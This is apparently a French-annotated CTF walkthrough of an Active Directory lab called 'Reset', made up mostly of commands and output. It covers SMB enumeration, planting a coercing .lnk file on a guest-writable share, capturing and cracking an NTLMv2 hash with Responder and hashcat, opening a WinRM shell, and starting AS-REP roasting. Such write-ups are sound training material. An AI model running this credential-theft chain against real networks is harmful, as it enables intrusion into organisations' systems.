




# Reset

This challenge simulates a cyber-attack scenario where you must exploit an Active Directory environment.

Level: Hard

Type: Active Directory

##  Scanning

``nmap -A -sV $TARGET``

        PORT     STATE SERVICE       VERSION
        53/tcp   open  domain        Simple DNS Plus
        88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-18 09:09:58Z)
        135/tcp  open  msrpc         Microsoft Windows RPC
        139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
        389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.corp0., Site: Default-First-Site-Name)
        445/tcp  open  microsoft-ds?
        464/tcp  open  kpasswd5?
        593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
        636/tcp  open  tcpwrapped
        3389/tcp open  ms-wbt-server Microsoft Terminal Services
        | ssl-cert: Subject: commonName=HayStack.thm.corp
        | Not valid before: 2025-11-17T09:09:24
        |_Not valid after:  2026-05-19T09:09:24
        |_ssl-date: 2025-11-18T09:10:45+00:00; 0s from scanner time.
        | rdp-ntlm-info: 
        |   Target_Name: THM
        |   NetBIOS_Domain_Name: THM
        |   NetBIOS_Computer_Name: HAYSTACK
        |   DNS_Domain_Name: thm.corp
        |   DNS_Computer_Name: HayStack.thm.corp
        |   Product_Version: 10.0.17763
        |_  System_Time: 2025-11-18T09:10:05+00:00
        Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
        OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
        No OS matches for host
        Network Distance: 2 hops
        Service Info: Host: HAYSTACK; OS: Windows; CPE: cpe:/o:microsoft:windows

        Host script results:
        | smb2-time: 
        |   date: 2025-11-18T09:10:08
        |_  start_date: N/A
        | smb2-security-mode: 
        |   311: 
        |_    Message signing enabled and required

        TRACEROUTE (using port 139/tcp)
        HOP RTT      ADDRESS
        1   30.34 ms 10.21.0.1
        2   32.62 ms 10.10.34.37

---

`enum4linux-ng -A -u "thm.corp"/"GUEST" -p "" "$TARGET"`

        ENUM4LINUX - next generation (v1.3.4)

        ==========================
        |    Target Information    |
        ==========================
        [*] Target ........... 10.10.34.37
        [*] Username ......... 'thm.corp/GUEST'
        [*] Random Username .. 'tqfrgqor'
        [*] Password ......... ''
        [*] Timeout .......... 5 second(s)

        ====================================
        |    Listener Scan on 10.10.34.37    |
        ====================================
        [*] Checking LDAP
        [+] LDAP is accessible on 389/tcp
        [*] Checking LDAPS
        [+] LDAPS is accessible on 636/tcp
        [*] Checking SMB
        [+] SMB is accessible on 445/tcp
        [*] Checking SMB over NetBIOS
        [+] SMB over NetBIOS is accessible on 139/tcp

        ===================================================
        |    Domain Information via LDAP for 10.10.34.37    |
        ===================================================
        [*] Trying LDAP
        [+] Appears to be root/parent DC
        [+] Long domain name is: thm.corp

        ==========================================================
        |    NetBIOS Names and Workgroup/Domain for 10.10.34.37    |
        ==========================================================
        [-] Could not get NetBIOS names information via 'nmblookup': timed out

        ========================================
        |    SMB Dialect Check on 10.10.34.37    |
        ========================================
        [*] Trying on 445/tcp
        [+] Supported dialects and settings:
        Supported dialects:
        SMB 1.0: false
        SMB 2.02: true
        SMB 2.1: true
        SMB 3.0: true
        SMB 3.1.1: true
        Preferred dialect: SMB 3.0
        SMB1 only: false
        SMB signing required: true

        ==========================================================
        |    Domain Information via SMB session for 10.10.34.37    |
        ==========================================================
        [*] Enumerating via unauthenticated SMB session on 445/tcp
        [+] Found domain information via SMB
        NetBIOS computer name: HAYSTACK
        NetBIOS domain name: THM
        DNS domain: thm.corp
        FQDN: HayStack.thm.corp
        Derived membership: domain member
        Derived domain: THM

        ========================================
        |    RPC Session Check on 10.10.34.37    |
        ========================================
        [*] Check for null session
        [+] Server allows session using username '', password ''
        [*] Check for user session
        [+] Server allows session using username 'thm.corp/GUEST', password ''
        [*] Check for random user
        [+] Server allows session using username 'tqfrgqor', password ''
        [H] Rerunning enumeration with user 'tqfrgqor' might give more results

        ==================================================
        |    Domain Information via RPC for 10.10.34.37    |
        ==================================================
        [+] Domain: THM
        [+] Domain SID: S-1-5-21-1966530601-3185510712-10604624
        [+] Membership: domain member

        ==============================================
        |    OS Information via RPC for 10.10.34.37    |
        ==============================================
        [*] Enumerating via unauthenticated SMB session on 445/tcp
        [+] Found OS information via SMB
        [*] Enumerating via 'srvinfo'
        [+] Found OS information via 'srvinfo'
        [+] After merging OS information we have the following result:
        OS: Windows 10, Windows Server 2019, Windows Server 2016
        OS version: '10.0'
        OS release: '1809'
        OS build: '17763'
        Native OS: not supported
        Native LAN manager: not supported
        Platform id: '500'
        Server type: '0x80102b'
        Server type string: Wk Sv PDC Tim NT

        ====================================
        |    Users via RPC on 10.10.34.37    |
        ====================================
        [*] Enumerating users via 'querydispinfo'
        [-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
        [*] Enumerating users via 'enumdomusers'
        [-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

        =====================================
        |    Groups via RPC on 10.10.34.37    |
        =====================================
        [*] Enumerating local groups
        [-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
        [*] Enumerating builtin groups
        [-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
        [*] Enumerating domain groups
        [-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

        =====================================
        |    Shares via RPC on 10.10.34.37    |
        =====================================
        [*] Enumerating shares
        [+] Found 6 share(s):
        ADMIN$:
        comment: Remote Admin
        type: Disk
        C$:
        comment: Default share
        type: Disk
        Data:
        comment: ''
        type: Disk
        IPC$:
        comment: Remote IPC
        type: IPC
        NETLOGON:
        comment: Logon server share
        type: Disk
        SYSVOL:
        comment: Logon server share
        type: Disk
        [*] Testing share ADMIN$
        [+] Mapping: DENIED, Listing: N/A
        [*] Testing share C$
        [+] Mapping: DENIED, Listing: N/A
        [*] Testing share Data
        [+] Mapping: OK, Listing: OK
        [*] Testing share IPC$
        [+] Mapping: OK, Listing: NOT SUPPORTED
        [*] Testing share NETLOGON
        [+] Mapping: OK, Listing: DENIED
        [*] Testing share SYSVOL
        [+] Mapping: OK, Listing: DENIED

        ========================================
        |    Policies via RPC for 10.10.34.37    |
        ========================================
        [*] Trying port 445/tcp
        [-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
        [*] Trying port 139/tcp
        [-] SMB connection error on port 139/tcp: session failed

        ========================================
        |    Printers via RPC for 10.10.34.37    |
        ========================================
        [+] No printers returned (this is not an error)

        Completed after 15.40 seconds

---

`nxc smb $TARGET -u 'Guest' -p '' --shares`

        SMB         10.10.34.37     445    HAYSTACK         [*] Windows 10 / Server 2019 Build 17763 x64 (name:HAYSTACK) (domain:thm.corp) (signing:True) (SMBv1:False)
        SMB         10.10.34.37     445    HAYSTACK         [+] thm.corp\Guest: 
        SMB         10.10.34.37     445    HAYSTACK         [*] Enumerated shares
        SMB         10.10.34.37     445    HAYSTACK         Share           Permissions     Remark
        SMB         10.10.34.37     445    HAYSTACK         -----           -----------     ------
        SMB         10.10.34.37     445    HAYSTACK         ADMIN$                          Remote Admin
        SMB         10.10.34.37     445    HAYSTACK         C$                              Default share
        SMB         10.10.34.37     445    HAYSTACK         Data            READ,WRITE      
        SMB         10.10.34.37     445    HAYSTACK         IPC$            READ            Remote IPC
        SMB         10.10.34.37     445    HAYSTACK         NETLOGON                        Logon server share 
        SMB         10.10.34.37     445    HAYSTACK         SYSVOL                          Logon server share 

**Droit de lecture et d'écrire dans le dossier Data avec le compte invité**

---

`nxc smb target $TARGET -u 'Guest' -p '' --rid-brute`

        SMB         10.10.34.37     445    HAYSTACK         [*] Windows 10 / Server 2019 Build 17763 x64 (name:HAYSTACK) (domain:thm.corp) (signing:True) (SMBv1:False)
        SMB         10.10.34.37     445    HAYSTACK         [+] thm.corp\Guest: 
        SMB         10.10.34.37     445    HAYSTACK         498: THM\Enterprise Read-only Domain Controllers (SidTypeGroup)
        SMB         10.10.34.37     445    HAYSTACK         500: THM\Administrator (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         501: THM\Guest (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         502: THM\krbtgt (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         512: THM\Domain Admins (SidTypeGroup)
        SMB         10.10.34.37     445    HAYSTACK         513: THM\Domain Users (SidTypeGroup)
        SMB         10.10.34.37     445    HAYSTACK         514: THM\Domain Guests (SidTypeGroup)
        SMB         10.10.34.37     445    HAYSTACK         515: THM\Domain Computers (SidTypeGroup)
        SMB         10.10.34.37     445    HAYSTACK         516: THM\Domain Controllers (SidTypeGroup)
        SMB         10.10.34.37     445    HAYSTACK         517: THM\Cert Publishers (SidTypeAlias)
        SMB         10.10.34.37     445    HAYSTACK         518: THM\Schema Admins (SidTypeGroup)
        SMB         10.10.34.37     445    HAYSTACK         519: THM\Enterprise Admins (SidTypeGroup)
        SMB         10.10.34.37     445    HAYSTACK         520: THM\Group Policy Creator Owners (SidTypeGroup)
        SMB         10.10.34.37     445    HAYSTACK         521: THM\Read-only Domain Controllers (SidTypeGroup)
        SMB         10.10.34.37     445    HAYSTACK         522: THM\Cloneable Domain Controllers (SidTypeGroup)
        SMB         10.10.34.37     445    HAYSTACK         525: THM\Protected Users (SidTypeGroup)
        SMB         10.10.34.37     445    HAYSTACK         526: THM\Key Admins (SidTypeGroup)
        SMB         10.10.34.37     445    HAYSTACK         527: THM\Enterprise Key Admins (SidTypeGroup)
        SMB         10.10.34.37     445    HAYSTACK         553: THM\RAS and IAS Servers (SidTypeAlias)
        SMB         10.10.34.37     445    HAYSTACK         571: THM\Allowed RODC Password Replication Group (SidTypeAlias)
        SMB         10.10.34.37     445    HAYSTACK         572: THM\Denied RODC Password Replication Group (SidTypeAlias)
        SMB         10.10.34.37     445    HAYSTACK         1008: THM\HAYSTACK$ (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1109: THM\DnsAdmins (SidTypeAlias)
        SMB         10.10.34.37     445    HAYSTACK         1110: THM\DnsUpdateProxy (SidTypeGroup)
        SMB         10.10.34.37     445    HAYSTACK         1111: THM\3091731410SA (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1112: THM\ERNESTO_SILVA (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1113: THM\TRACY_CARVER (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1114: THM\SHAWNA_BRAY (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1115: THM\CECILE_WONG (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1116: THM\CYRUS_WHITEHEAD (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1117: THM\DEANNE_WASHINGTON (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1118: THM\ELLIOT_CHARLES (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1119: THM\MICHEL_ROBINSON (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1120: THM\MITCHELL_SHAW (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1121: THM\FANNY_ALLISON (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1122: THM\JULIANNE_HOWE (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1123: THM\ROSLYN_MATHIS (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1124: THM\DANIEL_CHRISTENSEN (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1125: THM\MARCELINO_BALLARD (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1126: THM\CRUZ_HALL (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1127: THM\HOWARD_PAGE (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1128: THM\STEWART_SANTANA (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1130: THM\LINDSAY_SCHULTZ (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1131: THM\TABATHA_BRITT (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1132: THM\RICO_PEARSON (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1133: THM\DARLA_WINTERS (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1134: THM\ANDY_BLACKWELL (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1135: THM\LILY_ONEILL (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1136: THM\CHERYL_MULLINS (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1137: THM\LETHA_MAYO (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1138: THM\HORACE_BOYLE (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1139: THM\CHRISTINA_MCCORMICK (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1141: THM\3811465497SA (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1142: THM\MORGAN_SELLERS (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1143: THM\MARION_CLAY (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1144: THM\3966486072SA (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1146: THM\TED_JACOBSON (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1147: THM\AUGUSTA_HAMILTON (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1148: THM\TREVOR_MELTON (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1149: THM\LEANN_LONG (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1150: THM\RAQUEL_BENSON (SidTypeUser)
        SMB         10.10.34.37     445    HAYSTACK         1151: THM\AN-173-distlist1 (SidTypeGroup)
        SMB         10.10.34.37     445    HAYSTACK         1152: THM\Gu-gerardway-distlist1 (SidTypeGroup)
        SMB         10.10.34.37     445    HAYSTACK         1154: THM\CH-ecu-distlist1 (SidTypeGroup)
        SMB         10.10.34.37     445    HAYSTACK         1156: THM\AUTOMATE (SidTypeUser)

---

`smbclient //$TARGET/Data -U "Guest"`      

        smb: \> dir
        .                                   D        0  Wed Nov 19 09:26:51 2025
        ..                                  D        0  Wed Nov 19 09:26:51 2025
        onboarding                          D        0  Wed Nov 19 09:32:23 2025

                7863807 blocks of size 4096. 2999830 blocks available
        smb: \> cd onboarding\
        smb: \onboarding\> dir
        .                                   D        0  Wed Nov 19 09:32:23 2025
        ..                                  D        0  Wed Nov 19 09:32:23 2025
        4qfbepjf.ejf.txt                    A      521  Mon Aug 21 20:21:59 2023
        qclulqvh.q4v.pdf                    A  4700896  Mon Jul 17 10:11:53 2023
        skoct012.det.pdf                    A  3032659  Mon Jul 17 10:12:09 2023

                7863807 blocks of size 4096. 2999803 blocks available
        smb: \onboarding\> 
        
        smb: \onboarding\> dir
        .                                   D        0  Wed Nov 19 09:32:53 2025
        ..                                  D        0  Wed Nov 19 09:32:53 2025
        aembnmjy.mts.txt                    A      521  Mon Aug 21 20:21:59 2023
        whijuivw.bzg.pdf                    A  3032659  Mon Jul 17 10:12:09 2023
        y0egg145.05o.pdf                    A  4700896  Mon Jul 17 10:11:53 2023

                7863807 blocks of size 4096. 2999791 blocks available
        smb: \onboarding\> 

**Les fichiers changent de nom dans le temps (automatisation ou sans blanc d activité serveur ?)**

## NTLM THIEF

But: essayer de récupérer un token NTLM d'une session utilisateur via coerce

[Authentification NTLM : principes, fonctionnement et attaques NTLM Relay
](https://www.vaadata.com/blog/fr/authentification-ntlm-principes-fonctionnement-et-attaques-ntlm-relay/)

`ntlm_theft.py --verbose --generate modern --server "10.21.136.183" -f /workspace/Reset/ntlm_thef.lnk -g lnk`

        Created: /workspace/Reset/ntlm_thef.lnk.lnk (BROWSE TO FOLDER)
        Generation Complete.

---

`smbclient //$TARGET/Data -U "Guest"`      

        smbclient //$TARGET/Data -U "Guest"   
        smb: \> put ntlm_thef.lnk
        putting file ntlm_thef.lnk as ntlm_thef.lnk (0.2 kb/s) (average 0.2 kb/s)
        smb: \> cd onboarding\
        smb: \onboarding\> put ntlm_thef.lnk
        putting file ntlm_thef.lnk as \onboarding\ntlm_thef.lnk (1.7 kb/s) (average 0.7 kb/s)

**L'extension .lnk est un fichier de type lien qui pointe vers un serveur SMB (la machine attaquante) et qui essaye de charger une image issu du serveur pour récupérer le hash NTLMv2**

---

`responder -I tun0`

                                                __
        .----.-----.-----.-----.-----.-----.--|  |.-----.----.
        |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
        |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                        |__|

        [*] Sponsor Responder: https://paypal.me/PythonResponder

        [+] Poisoners:
            LLMNR                      [ON]
            NBT-NS                     [ON]
            MDNS                       [ON]
            DNS                        [ON]
            DHCP                       [OFF]

        [+] Servers:
            HTTP server                [ON]
            HTTPS server               [ON]
            WPAD proxy                 [OFF]
            Auth proxy                 [OFF]
            SMB server                 [ON]
            Kerberos server            [ON]
            SQL server                 [ON]
            FTP server                 [ON]
            IMAP server                [ON]
            POP3 server                [ON]
            SMTP server                [ON]
            DNS server                 [ON]
            LDAP server                [ON]
            MQTT server                [ON]
            RDP server                 [ON]
            DCE-RPC server             [ON]
            WinRM server               [ON]
            SNMP server                [ON]

        [+] HTTP Options:
            Always serving EXE         [OFF]
            Serving EXE                [OFF]
            Serving HTML               [OFF]
            Upstream Proxy             [OFF]

        [+] Poisoning Options:
            Analyze Mode               [OFF]
            Force WPAD auth            [OFF]
            Force Basic Auth           [OFF]
            Force LM downgrade         [OFF]
            Force ESS downgrade        [OFF]

        [+] Generic Options:
            Responder NIC              [tun0]
            Responder IP               [10.21.136.183]
            Responder IPv6             [fe80::70a7:d337:13ed:a564]
            Challenge set              [1122334455667788]
            Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
            Don't Respond To MDNS TLD  ['_DOSVC']
            TTL for poisoned response  [default]

        [+] Current Session Variables:
            Responder Machine Name     [WIN-S3RDXUSMWDC]
            Responder Domain Name      [0MQI.LOCAL]
            Responder DCE-RPC Port     [49169]

        [*] Version: Responder 3.1.6.0
        [*] Author: Laurent Gaffie, <lgaffie@secorizon.com>

        [+] Listening for events...

        [SMB] NTLMv2-SSP Client   : 10.10.34.37
        [SMB] NTLMv2-SSP Username : THM\AUTOMATE
        [SMB] NTLMv2-SSP Hash     : AUTOMATE::THM:1122334455667788:CEE57F2977BA2A778842B05AB64E0A4F:0101000000000000804389E87558DC01959526E74468629B000000000200080030004D005100490001001E00570049004E002D0053003300520044005...0000000200000C6D375CFB47D89E63E3E52682328F364AF3BB7F8D20CE9080302A4DB26C0B9550A001000000000000000000000000000000000000900240063006900660073002F00310030002E00320031002E003100330036002E003100380033000000000000000000

**Récupération du hash NTLMv2 du compte Automate**

---

`hashcat -m 5600 -a 0 hash_automate.txt /usr/share/wordlists/rockyou.txt`

        AUTOMATE::THM:1122334455667788:cee57f2977ba2a778842b05ab64e0a4f:hashcat (v6.2.6) starting

        OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
        ==========================================================================================================================================
        * Device #1: pthread--0x000, 2941/5946 MB (1024 MB allocatable), 12MCU

        Minimum password length supported by kernel: 0
        Maximum password length supported by kernel: 256

        Hashes: 1 digests; 1 unique digests, 1 unique salts
        Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
        Rules: 1

        Optimizers applied:
        * Zero-Byte
        * Not-Iterated
        * Single-Hash
        * Single-Salt

        ATTENTION! Pure (unoptimized) backend kernels selected.
        Pure kernels can crack longer passwords, but drastically reduce performance.
        If you want to switch to optimized kernels, append -O to your commandline.
        See the above message to find out about the exact limits.

        Watchdog: Hardware monitoring interface not found on your system.
        Watchdog: Temperature abort trigger disabled.

        Host memory required for this attack: 3 MB

        Dictionary cache built:
        * Filename..: /usr/share/wordlists/rockyou.txt
        * Passwords.: 14344391
        * Bytes.....: 139921497
        * Keyspace..: 14344384
        * Runtime...: 1 sec

        AUTOMATE::THM:1122334455667788:cee57f2977ba2a778842b05ab64e0a4f:0101000000000000804389E87558DC01959526E74468629B000000000200080030004D005100490001001E00570049004E002D0053003300520044005...0000000200000C6D375CFB47D89E63E3E52682328F364AF3BB7F8D20CE9080302A4DB26C0B9550A001000000000000000000000000000000000000900240063006900660073002F00310030002E00320031002E003100330036002E003100380033000000000000000000:Pa...d1
                                                                
        Session..........: hashcat
        Status...........: Cracked
        Hash.Mode........: 5600 (NetNTLMv2)
        Hash.Target......: AUTOMATE::THM:1122334455667788:cee57f2977ba2a778842...000000
        Time.Started.....: Tue Nov 18 10:34:38 2025 (0 secs)
        Time.Estimated...: Tue Nov 18 10:34:38 2025 (0 secs)
        Kernel.Feature...: Pure Kernel
        Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
        Guess.Queue......: 1/1 (100.00%)
        Speed.#1.........:  1742.6 kH/s (2.13ms) @ Accel:512 Loops:1 Thr:1 Vec:4
        Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
        Progress.........: 227328/14344384 (1.58%)
        Rejected.........: 0/227328 (0.00%)
        Restore.Point....: 221184/14344384 (1.54%)
        Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
        Candidate.Engine.: Device Generator
        Candidates.#1....: froggy17 -> 920217

---

`smbclient //$TARGET/ -U "Automate"`

        Password for [WORKGROUP\Automate]:

**Impossible de se connecter au partage SMB via le compte**

---

`bloodhound-python -d thm.corp -u "Automate" -p 'Pa...d1' -ns $TARGET -c all --zip`

**Automate appartient au groupe remote manager user, il peut donc exécuter des shell à distance via WinRM**

---

`evil-winrm -u "Automate" -p "Pa...d1" -i "$TARGET"`

        Evil-WinRM shell v3.7
                                                
        Info: Establishing connection to remote endpoint
        *Evil-WinRM* PS C:\Users\automate\Documents> type ..\Desktop\user.txt
        THM{AUTOMAT..._US}

**Flag user trouvé**

## Élévation de privilèges

**On peut voir qu'il y a 3 comptes qui peuvent recevoir des tickets kerberos en pré-authentification**

[AS_REP Roasting](https://en.hackndo.com/kerberos-asrep-roasting/)

`nxc ldap $TARGET -u "Automate"  -p 'Passw0rd1' --asreproast asreproast.txt`

        LDAP        10.10.34.37    389    HAYSTACK         [*] Windows 10 / Server 2019 Build 17763 (name:HAYSTACK) (domain:thm.corp) (signing:None) (channel binding:No TLS cert)
